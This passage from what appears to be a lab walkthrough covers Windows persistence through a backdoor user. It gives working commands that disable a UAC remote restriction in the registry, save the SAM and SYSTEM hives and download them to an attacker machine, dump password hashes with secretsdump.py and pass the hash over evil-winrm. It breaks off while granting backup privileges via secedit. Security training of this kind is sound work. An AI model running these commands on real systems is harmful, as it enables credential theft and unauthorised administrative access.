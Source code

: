 ![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

This is due to User Account Control (UAC). One of the features implemented by UAC, LocalAccountTokenFilterPolicy, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC here), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:

`*Evil-WinRM* PS C:\> reg save hklm\system system.bak`

`*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak`

`*Evil-WinRM* PS C:\> download system.bak`

`*Evil-WinRM* PS C:\> download sam.bak`

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:

`python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL`

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

`user@AttackBox$ evil-winrm -i 10.10.200.162 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3`

------------------------------------------------------

### Special Privileges and Security Descriptors

A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.

In the case of the Backup Operators group, it has the following two privileges assigned by default:

* SeBackupPrivilege: The user can read any file in the system, ignoring any DACL in place.
* SeRestorePrivilege: The user can write any file in the system, ignoring any DACL in place.

We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:

`secedit /export /cfg config.inf`

We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:
